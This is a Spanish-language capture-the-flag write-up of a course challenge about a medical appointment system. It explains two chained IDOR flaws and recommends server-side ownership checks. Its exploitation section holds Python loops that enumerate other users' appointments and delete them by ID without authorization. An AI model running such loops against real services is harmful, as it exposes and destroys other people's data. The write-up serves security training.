

# 🗓️ Desafío: Turnero

> ℹ️ **Nota:** Desafío del **curso de ciberseguridad pagado por la empresa** en la plataforma [softwareseguro.com.ar](https://app.softwareseguro.com.ar).

---

### 🧠 Descripción del caso



> *Al acceder al sistema, verás tus próximos turnos médicos. Tu compañero Fer también necesita un turno, pero el usuario "xdalvik" ha reservado demasiados turnos de manera intencionada para incomodar a los demás.*
>
> *¿Podrías eliminar todos los turnos de "xdalvik" sin afectar los turnos del resto de los usuarios?*
>
> **Usuario:** `luis` — **Clave:** `Luis.4321`

**Objetivo:** eliminar **todos** los turnos del usuario `xdalvik` sin afectar los del resto.

---

### 🔍 Análisis técnico

Logueados como `luis`, la sesión se maneja con una cookie **`session`**. Un detalle importante: **no es un JWT**, es una cookie de **Flask (Flask-Login)** firmada con `itsdangerous`. Su payload es legible pero **no se puede modificar** sin la `SECRET_KEY` del servidor:

```json
// Payload decodificado de la cookie session (luis)
{"_fresh": true, "_id": "fffcb610...", "_user_id": "1"}
```

Analizando el front-end (`GET /`), se descubren **dos endpoints** de la API:

| Endpoint | Uso legítimo | Problema |
|---|---|---|
| `GET /api/{userId}/appointments/` | El front lista *tus* turnos usando tu `user_id` | **No valida** que el `userId` de la URL sea el tuyo |
| `DELETE /api/appointments/{id}` | Cancelar *tu* turno | **No valida** que el turno te pertenezca |

El JS de la página toma el `user_id` de un campo oculto y arma la URL:

```javascript
let userId = document.getElementById("user_id").value;  // 1 (luis)
fetch(`/api/${userId}/appointments/`)                    // <-- userId manipulable
// ...
fetch(`/api/appointments/${appointmentId}`, { method: 'DELETE' })  // <-- id ajeno
```

---

### 💥 Explotación

Son **dos IDOR encadenados**:

**1) IDOR de lectura — encontrar a xdalvik.** Cambiando el `userId` en `GET /api/{userId}/appointments/` se listan los turnos de *cualquier* usuario. Además, el JSON expone el campo `user` (username) y `user_id`, así que enumerando los IDs se ubica a xdalvik:

```python
# Enumerar usuarios hasta encontrar a xdalvik
for uid in range(1, 1001):
    d = requests.get(f"{BASE}/api/{uid}/appointments/", cookies=cookies).json()
    if d and d[0]["user"] == "xdalvik":
        print(uid, [x["id"] for x in d])   # -> 101 [10, 11, 12, 13]
```

Resultado del mapeo:

| Usuario | user_id | IDs de turno |
|---|---|---|
| luis (nosotros) | 1 | 2, 3, 4, 5 |
| analia | 49 | 6, 7, 8, 9 |
| **xdalvik** 🎯 | 101 | **10, 11, 12, 13** |

**2) IDOR de borrado — eliminar solo sus turnos.** El endpoint `DELETE /api/appointments/{id}` borra por ID global sin verificar propiedad:

```python
for tid in [10, 11, 12, 13]:          # solo los de xdalvik
    r = requests.delete(f"{BASE}/api/appointments/{tid}", cookies=cookies)
    print(tid, r.status_code)         # 200 OK x4
```

---

### ✅ Resultado

Verificación post-borrado:

| Usuario | Antes | Después |
|---|---|---|
| **xdalvik** (uid 101) | 4 turnos (10-13) | **0 turnos** ✅ |
| luis (uid 1) | 4 turnos | 4 turnos (2,3,4,5) — intacto ✅ |
| analia (uid 49) | 4 turnos | 4 turnos (6,7,8,9) — intacto ✅ |

Se eliminaron **únicamente** los turnos de xdalvik, sin afectar al resto. La plataforma dio el reto por superado, devolviendo la clave en el `<h1>`:

```
d27fa3f8fc14ea101603d09436e28bf6
```

---

### 🔓 Vulnerabilidad encontrada

**IDOR (Insecure Direct Object Reference) — doble, en lectura y en borrado:**

- `GET /api/{userId}/appointments/` confía en el `userId` de la URL y expone los turnos (y datos) de cualquier usuario.
- `DELETE /api/appointments/{id}` ejecuta el borrado confiando en el `id` enviado, sin comprobar que el turno pertenezca al usuario de la sesión.
- Los identificadores secuenciales (user_id y appointment id) facilitan la enumeración.

---

### 🛡️ Mitigación recomendada

- **Autorización a nivel de objeto:** en cada operación (leer/borrar), verificar del lado servidor que el recurso pertenece al usuario autenticado (`session._user_id`), ignorando cualquier id de propiedad enviado por el cliente.
- No derivar el "dueño" de un campo manipulable (como el `userId` de la URL o un input oculto); usar siempre el id de la sesión.
- Considerar identificadores no predecibles (UUID) como defensa en profundidad, nunca como reemplazo del control de acceso.
